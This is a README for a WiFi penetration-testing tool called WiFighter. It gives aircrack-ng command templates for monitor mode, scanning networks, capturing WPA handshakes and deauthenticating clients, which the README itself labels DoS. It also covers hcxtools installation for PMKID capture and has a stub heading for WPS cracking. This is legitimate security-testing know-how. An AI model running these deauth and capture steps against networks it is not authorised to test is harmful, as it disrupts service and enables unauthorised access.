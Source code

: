 # WiFighter
Easy-to-use WiFI pen-testing tool for Debian build on aircrack-ng written in python and bash




## Dependecies

```c
apt install -y aircrack-ng hcxdumptool hcxpcapngtool hashcat
```




## 1. Aircrack guide

- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

### Monitor mode

Set interface to monitor
```c
airmon-ng start <INTERFACE>
```

Set interface to managed
```c
airmon-ng stop <INTERFACE>mon
```

### Scan nearby WiFi's

Scan all
```c
airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
airodump-ng --band a <ESSID> <INTERFACE>mon
```

Listen for handshake of specified AP
```c
airodump-ng -c <CHANNEL> -b <BSSID> -w OUTPUT_PATH <INTERFACE>mon
```

### Deauth clients (force handshake)

Deauth all (broadcast)
```c
aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```



## 2. Hcxtools guide

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

### Installation

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



## 3. Reaver or Bully ??

- Cracking WPS




